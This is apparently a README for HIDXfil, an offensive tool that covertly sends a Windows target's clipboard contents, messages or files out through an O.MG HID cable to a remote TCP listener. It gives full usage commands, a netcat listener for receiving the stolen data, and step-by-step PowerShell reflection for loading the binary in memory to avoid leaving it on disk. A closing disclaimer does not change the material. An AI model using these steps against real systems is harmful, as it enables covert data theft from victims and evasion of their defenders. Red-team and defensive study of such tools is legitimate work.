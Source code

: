# HIDXfil
**HIDXfil** is a tool designed to exfiltrate data through a Human Interface Device (HID). This can be useful for scenarios where traditional network-based exfiltration methods are restricted or monitored. This tool can send messages, clipboard content, or whole files to a specified USB device using its Vendor ID (VID) and Product ID (PID). **HIDXfil** is designed to work with HIDX StealthLink, a feature for [O.MG Elite devices](https://shop.hak5.org/collections/mischief-gadgets).

![hidxfil-diagram](https://github.com/user-attachments/assets/c81d75dd-e603-4d98-b3fe-6a29398a7e3f)

## Usage
I'm not planning on releasing binaries for HIDXfil, so you will have to compile yourself :)

The Usage of the provided project is pretty much self explanatory.
After successfully compiling the project, the binary can simply be used on a Windows Target system. 
```
 _   _ _____________   __  _____ _             _ _   _       _     _       _
| | | |_   _|  _  \ \ / / /  ___| |           | | | | |     | |   (_)     | |
| |_| | | | | | | |\ V /  \ `--.| |_ ___  __ _| | |_| |__   | |    _ _ __ | | __
|  _  | | | | | | |/   \   `--. \ __/ _ \/ _` | | __| '_ \  | |   | | '_ \| |/ /
| | | |_| |_| |/ // /^\ \ /\__/ / ||  __/ (_| | | |_| | | | | |___| | | | |   <
\_| |_/\___/|___/ \/   \/ \____/ \__\___|\__,_|_|\__|_| |_| \_____/_|_| |_|_|\_\

HID-Based Exfiltration Tool by Ø1phor1³

Usage: HIDXfil.exe /message <Message> /clipboard /vid <VendorID> /pid <ProductID> /chunksize <chunksize> /file <filepath>

Parameters:
  /message:   Specify the message to exfiltrate
  /clipboard: Exfiltrate the Users clipboard content
  /file:      Specify the file path to exfiltrate
  /vid:       Specify the Vendor ID of the target device (Optional - Default:D3C0)
  /pid:       Specify the Product ID of the target device (Optional - Default:D34D)
  /chunksize: Specify the chunk size for data transfer (Optional - Default:8)

Example: HIDXfil.exe /message "Hello World" /vid D3C0 /pid D34D /chunksize 8
```
A chunksize of 8 was set to ensure the best results. Changing this value may result in missing data and corrupted files.
Generally, any TCP Listener can be used to retreive the data sent by the O.MG device. 

Exfiltrating files is not as reliable as pure "text-based" input. Depending on size and filetype it may needs multiple tries and different chunk sizes.

Netcat may be your first choice: `nc -lvnp <port>` / `nc -lvnp <port> > example.file`

## Running HIDXfil Through PowerShell
While there are PowerShell scripts provoding exfiltration via HIDX StealthLink, **HIDXfil.exe** may introduce more functionalities. If you do want to run it through PowerShell though, considere the following steps:

If you want to run **HIDXfil** in-memory through a PowerShell wrapper, first compile **HIDXfil** and encode the resulting binary into base64:

`$base64 = [Convert]::ToBase64String([IO.File]::ReadAllBytes("<Path to .exe>"))`

**HIDXfil** can then be loaded in a PowerShell script with the following:

`$AssemblyLoad = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64))`

Afterwards, identify the entry point:

`$EntryPoint = $AssemblyLoad.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')`

Executing the loaded assembly then can be achieved like this (If you do need to define multiple arguments, seperate them via `,`):

`$EntryPoint.Invoke($null, (, [string[]] ('<Argument(s)>')))`


## Disclaimer
By using the provided code, you agree to the following terms:

1.  **No Warranty**: This code is provided "as is" without warranty of any kind, express or implied. The creator does not warrant that the provided code will be error-free or will meet your requirements or expectations.
    
2.  **Use at Your Own Risk**: You are solely responsible for the use of this code. The creator is not responsible for any damage, loss, or issues that may arise from using this script, including but not limited to loss of data, system malfunctions, or security vulnerabilities.
    
3.  **Compliance with Laws**: You agree to use this script in compliance with all applicable local, state, national, and international laws and regulations. The creator is not responsible for any illegal or unauthorized use of this code.
    
4.  **No Liability**: The creator shall not be liable for any direct, indirect, incidental, special, exemplary, or consequential damages.

By using this code, you acknowledge that you have read and understood this disclaimer and agree to be bound by its terms.
